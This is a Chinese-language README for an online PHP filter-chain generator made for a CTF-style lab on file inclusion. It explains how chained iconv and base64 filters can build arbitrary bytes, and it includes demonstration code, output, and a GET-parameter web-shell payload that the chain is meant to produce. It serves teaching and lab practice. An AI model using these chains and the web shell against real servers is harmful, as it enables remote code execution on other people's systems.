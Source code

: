 # PHP-FilterChain-Exploit
A Online PHP FilterChain Generator：https://probiusofficial.github.io/PHP-FilterChain-Exploit/

Used in  [【PHPinclude-labs · level 16: FilterChain:THE_END_OF_LFI】](https://github.com/ProbiusOfficial/PHPinclude-labs/tree/main/Level%2016)   to simplify the generation process.

idea：https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

Modified from：

- https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT/

- https://github.com/synacktiv/php_filter_chain_generator/

## Detail

> 在开始之前，请先参阅 [【PHP手册 · wrappers · php://filter】](https://www.php.net/manual/zh/wrappers.php.php#wrappers.php.filter).
>
> 如果你无法理解，可以尝试完成  [【PHPinclude-labs】](https://github.com/ProbiusOfficial/PHPinclude-labs) 中的 【Level 6】 【Level 8】 【Level 9】【Level 11】【Level 11-】【Level 11
>
> +】
>
> php:// — 访问各个输入/输出流（I/O streams）

 php://filter - (PHP_Version>=5.0.0)其参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递，从而组成一个过滤链，常用于数据读取。

| 名称                      | 描述                                                         | 示例                 |
| ------------------------- | ------------------------------------------------------------ | -------------------- |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。             | `resource=flag.php`    |
| read=<读链的筛选列表>     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（\|）分隔。 | `php://filter/read=A|B|C/resource=flag.php`  |
| write=<写链的筛选列表>    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（\|）分隔。 | `php://filter/write=A|B|C/resource=flag.php` |
| <；两个链的筛选列表>      | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 | `php://filter/A|B|C/resource=flag.php`       |

我们以convert.iconv`的`CSISO2022KR`为例子，看下面的这一串php代码：

```
php://filter/convert.iconv.UTF8.CSISO2022KR/resource=php://temp
```

我们尝试输出它：

```PHP
<?php
$url = "php://filter/convert.iconv.UTF8.CSISO2022KR/resource=php://temp";
$var = file_get_contents($url);

var_dump(file_get_contents($url));# Output：string(4) "" #这里""中没有内容是因为编码的字符是不可见字符

echo bin2hex($var);# Output：1b242943 （The hexcode of “.$)C”）
```

![img](./assets/1722630202107-1.png)

当然现在可能不是很明显，我们尝试强制解码再编码：

```PHP
<?php
$url = "php://filter/convert.iconv.UTF8.CSISO2022KR";
$url .= "|convert.base64-decode";
$var = file_get_contents($url."/resource=data://,aaa");
echo $url."|convert.base64-encode/resource=data://,aaa"."\n";
echo bin2hex($var)."\n";
var_dump(file_get_contents($url."|convert.base64-encode/resource=data://,aaa"));

#Output:

$url .= "|convert.base64-encode";
$url .= "/resource=data://,aaa";
echo $url."\n";
$var = file_get_contents($url);
echo bin2hex($var)."\n";
var_dump(file_get_contents($url));
```

上述程序的输出如下：

```PHP
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=data://,aaa
09a69a 
string(3) "     ��"

php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode/resource=data://,aaa
43616161
string(4) "Caaa"
```

![img](./assets/1722630202107-2.png)

因为base64的宽松性，这个解码过程可以这样理解：

```PHP
preg_replace('|[^a-z0-9A-Z+/]|s', '', $input);
```

所以当我们调用decode的时候首先会对非法字符进行置空，只剩下C和剩下的字符一起解码，那么我们想要还原这个C，按照base64encode的原理，至少需要4个字符，所以我们这里使用了resource=data://,aaa让C和三个a一起解码。

我们利用编码转换构造了一个C的base64decode串，那么能否利用`iconv`的特性构造其他字符呢？

答案是可以的，只要构造的字符在base64表内，那么就能通过不停的拼接`iconv`支持的编码，不断的利用base64特性去除非法字符，然后留下特定字符进行构造。

那么我们就可以构造`A-Za-z0-9+/=`任意字符。

既然这样，我们能否在把脑洞开大一点，我们既然能构造base64表中的任意字符，那我们讲这一串字符再进行一次base64解码不就相当于，我们能够构造不受限制的任意字符了么？！！！

根据上面的结论，理论上我们可以对任意payload的base64进行构造，只需要通过编码不断扩展就行，比如下面这一个过程：

```PHP
<?php
$url = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4";
$url_2 = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921";
$url_3 = "php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE";

$url .= "|convert.base64-decode";
$var = file_get_contents($url."/resource=data://,aaa");
echo $url."|convert.base64-encode/resource=data://,aaa"."\n";
echo bin2hex($var)."\n";
var_dump(file_get_contents($url."/resource=data://,aaa"));

$url .= "|convert.base64-encode";
$url .= "/resource=data://,aaa";
echo $url."\n";
$var = file_get_contents($url);
echo bin2hex($var)."\n";
var_dump(file_get_contents($url));
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode/resource=data://,aaa
d5a69a
string(3) "զ�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode/resource=data://,aaa
31616161 string(4) "1aaa"

php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode/resource=data://,aaa
db569a string(3) "�V�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode/resource=data://,aaa
32316161 string(4) "21aa"

php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode/resource=data://,aaa
dccdb569a6 string(5) "�͵i�"
php://filter/convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode/resource=data://,aaa
334d3231 string(4) "3M21"
```

可以看到 当我们增加对应字符的编码串的时候 他会在原字符串的前端生成对应字符。

那么思路就明确了，比如我们要构造生成下面这样的php payload

```PHP
<?=`$_GET[0]`;;?>
```

我们只需要构造他的base64形式的反转形式最后解码，就能在字符串前端生成我们的payload了

```
PD89YCRfR0VUWzBdYDs7Pz4=` ——> `4zP7sDYdBzWUV0RfRCY98DP
```

在了解基本原理之后，我们要做的就是使用编码构造一份字典，对应base64编码中每一个合法字符：https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT
